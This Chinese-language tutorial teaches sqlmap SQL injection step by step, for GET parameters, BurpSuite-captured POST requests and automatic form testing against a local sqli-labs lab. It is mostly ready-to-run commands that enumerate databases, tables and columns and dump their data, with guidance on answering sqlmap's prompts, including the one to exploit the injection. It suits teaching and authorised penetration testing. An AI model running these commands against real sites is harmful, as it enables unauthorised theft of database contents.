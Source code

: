 # 

# SQLMap 使用

## GET型注入

### 1、判断是否存在注入

假设目标注入点是 `http://xxxxxxx?id=1`，判断其是否存在注入的命令如下：

```
sqlmap.py -u http://xxxxxxx?id=1
```

当注入点后面的参数大于等于两个时,需要加双引号，如下所示。

```
sqlmap.py -u "http://xxxxxxx?id=1&uid=2"
```

​	

### 2、爆出服务器的所有数据库名

```
sqlmap.py -u "http://xxxxxxx?id=1" --dbs
```

​	

### 3、爆出当前网站的数据库名

```
sqlmap -u "http://xxxxxxx?id=1" --current-db
```

​	

### 4、爆出表名

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 --tables
```

​	

### 5、爆出字段名(列名)

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 -T 表名 --columns
```

​	

### 6、爆出数据

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 -T 表名 -C 字段1,字段2 --dump
```

​	

​	

## POST型注入

### 注入方式一：BurpSuite抓包

**BurpSuite抓请求包、复制内容保存到txt文件**

### 1、判断是否存在注入

```
sqlmap.py -r D:\1.txt
```

​	

### 2、爆出服务器的所有数据库名

```
sqlmap.py -r D:\1.txt --dbs
```

- **it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]**
  它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 
  输入"Y"
- **for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]**
  对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？ [Y/n] 
  输入"N"
- **POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
  POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N] 
  输入"Y"

​	

### 3、爆出当前网站的数据库名

```
sqlmap.py -r D:\1.txt --current-db
```

​	

### 4、爆出表名

```
sqlmap.py -r D:\1.txt -D 库名 --tables
```

​	

### 5、爆出字段名(列名)

```
sqlmap.py -r D:\1.txt -D 库名 -T 表名 --columns
```

​	

### 6、爆出数据

```
sqlmap.py -r D:\1.txt -D 库名 -T 表名 -C 字段1,字段2 --dump
```

​	

> POST型注入也可以用 `-p` 来指定某个参数

​		

### 注入方式二：自动搜索表单

```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-11/ --forms --level=5 --dbs
```

- do you want to test this form? [Y/n/q]
  要测试此表单吗?[Y/n/q] 
  输入"Y"
- do you want to fill blank fields with random values? [Y/n]
  是否要填充带有随机值的空白字段? [Y/n] 
  输入"Y"
- it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
  它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 
  输入"Y"
- for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
  对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？[Y/n] 
  输入"N"
- POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
  POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N] 
  输入"N"
- do you want to exploit this SQL injection? [Y/n]
  你想利用[SQL注入](https://so.csdn.net/so/search?q=SQL注入&spm=1001.2101.3001.7020)？ 
  输入"Y"
